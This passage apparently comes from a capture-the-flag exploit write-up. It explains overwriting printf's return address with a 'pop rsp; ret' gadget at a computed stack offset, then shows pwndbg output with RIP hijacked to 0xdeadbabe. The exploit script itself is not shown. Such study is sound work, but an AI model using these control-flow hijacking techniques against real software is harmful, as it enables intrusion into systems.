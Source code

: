 
How the calculation works explained below. 

After executing previous script, the return address of **printf** points to **pop rsp; ret** gadget.
The distance between **printf**'s return address and **rbp address** is : **rbp_address-0x4f8: return address of printf**.

![](images/c0ce5225412084869e44c54584bfc46a.png)


Continue to execution will cause segmentation of on **RIP=0xdeadbabe**.

```css
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbabe in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────
 RAX  0x2aa
 RBX  0x2020202020202020 ('        ')
 RCX  0
 RDX  0
 RDI  0x7f844a7597e0 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x7fffdd316ab0 ◂— 0x706e692072756f59 ('Your inp')
 R8   0x2aa
 R9   0x2aa
 R10  0xa084ab0 ◂— 0x4a758723
 R11  0x246
 R12  0x401190 (_start) ◂— endbr64 
 R13  0x7fffdd31a180 ◂— 1
 R14  0
 R15  0
 RBP  0x7fffdd319640 —▸ 0x7fffdd319b40 —▸ 0x7fffdd31a040 —▸ 0x7fffdd31a090 ◂— 0
*RSP  0x404708 ◂— 0
*RIP  0xdeadbabe
─────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────
Invalid address 0xdeadbabe
```
